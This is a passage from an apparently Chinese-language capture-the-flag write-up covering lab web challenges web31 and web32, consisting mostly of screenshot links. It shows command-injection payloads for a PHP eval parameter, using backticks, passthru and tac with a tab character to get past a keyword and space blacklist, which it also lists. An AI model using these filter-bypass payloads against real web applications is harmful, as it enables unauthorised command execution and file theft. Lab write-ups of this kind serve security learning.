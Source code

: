 ```
?c=echo(`tac%09f*`);
```

传入

![image-20231216114305234](image/image-20231216114305234.png)

得到flag

------

#### web32

分析

![image-20231216114314410](image/image-20231216114314410.png)

过滤了

```
flag|system|php|cat|sort|shell|\.| |\'
```

编写命令

```
?c=passthru("tac%09f*");
```

输入

![image-20231216114325905](image/image-20231216114325905.png)
